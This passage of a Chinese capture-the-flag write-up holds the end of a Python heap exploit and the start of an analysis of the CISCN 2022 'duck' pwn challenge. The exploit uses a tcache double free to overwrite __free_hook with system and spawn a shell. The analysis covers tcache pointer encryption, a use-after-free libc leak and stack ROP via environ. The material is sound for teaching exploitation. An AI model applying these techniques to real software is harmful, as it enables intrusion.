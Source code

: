    ```python
   for i in range(9):
       free(i)
   # free(8)
   free(9)
   free(8)
   #在free_hook_addr-0x8处分配chunk
   payload = p64(free_hook_addr-0x8)
   for i in range(7):
       add(0x38,i,b'a')
   add(0x38,8,payload)
   
   add(0x38,0,b'a')
   add(0x38,0,b'a')
   
   payload = b"/bin/sh\x00"+p64(system_addr)
   add(0x38,0,payload)
   free(0)
   p.sendline(b'cat flag')
   p.interactive()
   ```

   

   ![image-20240713125605048](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131256416.png)





# 4. [[CISCN 2022 华东北\]duck | NSSCTF](https://www.nssctf.cn/problem/2388)

### 思路：高版本glibc，tcache回堆next指针加密

1. tcache加密：(当前next指针地址>>>12)^(要指向的下一个chunk地址) ， 第一个进入tcache的**chunk下一个chunk地址**为0。（注意进入tcache时链表采用的是**头插法**）
2. 利用UAF泄漏libc基地址，由于**glibc2.34**中取消了 **maloc_hook** 和 **free_hook** ,这两个符号。
3. 所以只能采用 **泄漏environ中存储的栈地址** ，然后**任意分配chunk到栈上**，构造ROP链，覆盖栈上的返回值。

### 分析：

1. 题目给的libc版本是glibc-2.34，add函数添加指定大小的chunk0x110：

   ![image-20240715210018852](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152100935.png)

   ![image-20240715210112736](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152101147.png)

2. delete函数中，堆指针没有清0，所以存在UAF漏洞：

   ![image-20240715210217871](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407152102956.png)

3. show函数，和edit函数结合delete函数，存在UAF利用：
